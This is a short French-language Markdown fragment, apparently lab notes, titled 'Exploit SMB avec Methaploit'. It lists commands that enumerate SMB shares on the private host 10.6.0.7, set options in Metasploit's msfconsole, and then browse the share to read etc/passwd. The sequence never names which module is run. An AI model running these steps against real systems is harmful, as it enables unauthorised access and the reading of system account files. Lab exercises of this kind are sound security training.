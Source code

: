 ## Exploit SMB avec Methaploit

```bash

smbclient -L //10.6.0.7
msfconsole
set RHOST 10.6.0.7
set SMBSHARE tmp
run
exit

smbclient //10.6.0.7/tmp
cd roottfs
cd etc
more passwd
```
![smb](Images/smb.png)